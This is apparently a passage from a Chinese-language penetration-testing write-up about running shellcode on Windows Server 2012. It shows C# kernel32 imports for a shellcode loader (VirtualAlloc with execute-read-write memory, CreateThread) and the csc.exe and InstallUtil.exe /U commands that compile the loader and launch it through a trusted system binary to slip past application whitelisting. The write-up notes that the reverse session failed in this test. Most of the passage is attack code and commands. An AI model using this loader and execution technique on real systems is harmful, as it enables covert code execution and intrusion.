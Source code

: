 ```csharp
    private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

    [DllImport("kernel32")]
    private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

    [DllImport("kernel32")]
    private static extern bool VirtualFree(IntPtr lpAddress, UInt32 dwSize, UInt32 dwFreeType);

    [DllImport("kernel32")]
    private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

    [DllImport("kernel32")]
    private static extern bool CloseHandle(IntPtr handle);

    [DllImport("kernel32")]
    private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    [DllImport("kernel32")]
    private static extern IntPtr GetModuleHandle(string moduleName);

    [DllImport("kernel32")]
    private static extern UInt32 GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    private static extern UInt32 LoadLibrary(string lpFileName);

    [DllImport("kernel32")]
    private static extern UInt32 GetLastError();
}
```

#### 2. 靶机执行

在Windows Server 2012上执行以下命令：

```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out:1.exe /platform:x64 /unsafe C:\Users\Administrator\Desktop\a\1.cs
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\Administrator\Desktop\a\1.exe
```

**结果**：
- 编译命令生成`1.exe`（DLL格式）。
- `InstallUtil.exe`以卸载模式（`/U`）运行，触发`Uninstall`方法执行shellcode。
- 测试未成功建立反向会话，可能因网络配置或防御机制拦截，需进一步调试。

## 测试留痕
